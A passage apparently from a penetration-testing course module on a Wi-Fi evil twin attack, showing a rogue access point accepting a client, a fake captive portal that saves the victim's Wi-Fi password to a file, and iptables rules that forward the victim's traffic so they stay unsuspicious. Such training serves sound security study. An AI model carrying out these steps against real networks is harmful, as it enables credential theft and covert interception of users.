 Once a client connects to our rogue AP, the `hostapd` output would be similar to the following:

```shell
hostapd apd.conf

rfkill: Cannot open RFKILL control device
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA C2:CA:2A:79:D5:87 IEEE 802.11: authenticated
wlan0: STA C2:CA:2A:79:D5:87 IEEE 802.11: associated (aid 1)
wlan0: AP-STA-CONNECTED C2:CA:2A:79:D5:87
wlan0: STA C2:CA:2A:79:D5:87 RADIUS: starting accounting session D82057CD7522F435

```

Additionally, we would observe a DHCP request from the client for an IP address in the `dnsmasq` tab, confirming that the client is attempting to communicate through the rogue access point.

```shell
sudo dnsmasq -C dns.conf -d

dnsmasq-dhcp: 2979841318 available DHCP range: 192.168.0.2 -- 192.168.0.254
dnsmasq-dhcp: 2979841318 client provides name: client
dnsmasq-dhcp: 2979841318 DHCPREQUEST(wlan0) 192.168.0.232 C2:CA:2A:79:D5:87
dnsmasq-dhcp: 2979841318 tags: wlan0
dnsmasq-dhcp: 2979841318 DHCPACK(wlan0) 192.168.0.232 C2:CA:2A:79:D5:87 client

```

* * *

### 5\. Capture & Validate the credentials

After a client successfully connects, they will be redirected to our fake captive portal, which would look like following:

![manual](https://academy.hackthebox.com/storage/modules/291/captive_.PNG)

If the client enters their password, the credentials will be captured and saved in the `passes.lst` file.

```shell
cat /var/www/html/passes.lst
<SNIP>

```

After the victim enters the correct password in the captive portal, we can enable internet access for them by configuring the iptables firewall rules. This step is crucial to avoid raising suspicion and maintain the connection.

```shell
iptables --append POSTROUTING --table nat --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT

```

